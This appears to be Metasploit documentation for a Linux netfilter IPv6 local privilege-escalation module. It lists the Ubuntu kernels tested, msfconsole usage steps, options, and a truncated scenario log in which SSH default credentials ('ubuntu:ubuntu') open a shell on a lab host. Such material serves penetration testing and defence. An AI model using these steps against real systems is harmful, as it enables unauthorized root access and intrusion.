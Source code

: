 ## Notes

This module (and the original exploit) are written in two parts: pwn, and enjoy.  Originally a version.h file was also included, but that has been incorporated into the target selection for this exploit.

## Creating A Testing Environment

There are a few requirements for this module to work (ubuntu):

  1. ip6_tables.ko has to be loaded (root running `ip6tables -L` will do such)

This module has been tested against:

  1. Ubuntu 14.04 (sudo apt-get install linux-image-4.2.0-27-generic)
  2. Ubuntu 16.04 (default kernel) linux-image-4.4.0-21-generic

This module has offsets for the following kernels, which have not been tested:
  
  1. 4.6.2 
  2. 4.2.0

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/netfilter_priv_esc_ipv6`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If the exploit should be live compiled on the system.  Default is auto, if the system has the necessary files, it will compile, if not then drop a binary

## Scenarios

### Ubuntu 16.04 (with linux-image-4.4.0-21-generic)

#### Initial Access

    [*] Processing ipv6.rc for ERB directives.
    resource (ipv6.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ipv6.rc)> set rhosts 192.168.2.137
    rhosts => 192.168.2.137
    resource (ipv6.rc)> set username ubuntu
    username => ubuntu
    resource (ipv6.rc)> set password ubuntu
    password => ubuntu
    resource (ipv6.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:36837 -> 192.168.2.137:22) at 2016-10-25 14:56:24 -0400
    [*] Scanned 1 of 1 hosts (100% complete)